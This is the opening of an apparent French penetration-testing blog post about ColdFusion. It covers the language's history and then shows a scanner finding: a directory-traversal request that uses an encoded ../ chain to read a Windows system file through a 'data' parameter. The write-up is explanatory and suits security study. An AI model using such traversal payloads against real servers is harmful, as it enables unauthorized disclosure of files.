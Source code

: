 ```yaml
---
title: "Tales of PenTest #2: Celui qui utilisait encore ColdFusion"
tags: [pentest, Windows]
---
```


À l'attention des louveteaux
----------------------------

ColdFusion ? C'est quoi ça ? C'est avant tout un langage destiné au web, pour résoudre à sa sortie en 1995 le besoin de créer des pages web dynamiques tout en s'évitant d'avoir recours [aux horribles CGI en Perl](http://www.phrack.org/issues/55/7.html#article) truffés de vulnérabilités en tout genre.  

Certes on a eu droit à PHP et CFM (*ColdFusion Markup Language*) ce qui n'était pas forcément mieux en matière de sécurité :D  

Quoi qu'il en soit ColdFusion a suivi un cheminement similaire à l'éditeur de pages web de l'époque Dreamweaver c'est-à-dire reprise par Macromedia, repris lui-même par Adobe.  

Et [d'après la page wikipedia](https://fr.wikipedia.org/wiki/ColdFusion) et malgré la popularité des frameworks Python, ColdFusion continue d'exister avec une version 2021.  

Félicie avait une fuite... ColdFusion... aussi !
------------------------------------------------

Un scan Wapiti sur notre cible du jour remonte une faille de type directory traversal :  

```
---
Windows local file disclosure vulnerability dans http://target/website/content.cfm via une injection dans le paramètre data
Evil request:
    GET /web/content.cfm?data=..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2FWindows%2FSystem32%2Fdrivers%2Fetc%2Fservices&cid=48 HTTP/1.1
    Host: target
---
```

On peut vérifier l'intégration des données dans la page directement depuis le navigateur :  

![Directory traversal vulnerability on Coldfusion](/assets/img/coldfusion/directory_traversal.png)
